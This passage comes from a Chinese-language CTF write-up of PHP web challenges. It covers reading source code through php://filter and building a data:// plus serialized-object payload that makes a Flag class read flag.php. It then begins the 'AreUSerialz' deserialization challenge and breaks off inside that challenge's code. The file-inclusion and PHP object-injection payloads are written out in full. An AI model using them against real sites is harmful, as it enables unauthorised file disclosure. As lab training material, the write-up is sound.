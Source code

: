 包含useless.php文件，利用filter协议读取

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```



读到内容

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```



看到toString方法



然后让Flag里面的file = flag.php 然后反序列化即可



然后上述三个payload&提交

```
/？text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```





### AreUserialz

2020-网鼎杯-青龙组-Web-AreUSerialz



题目：

```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

```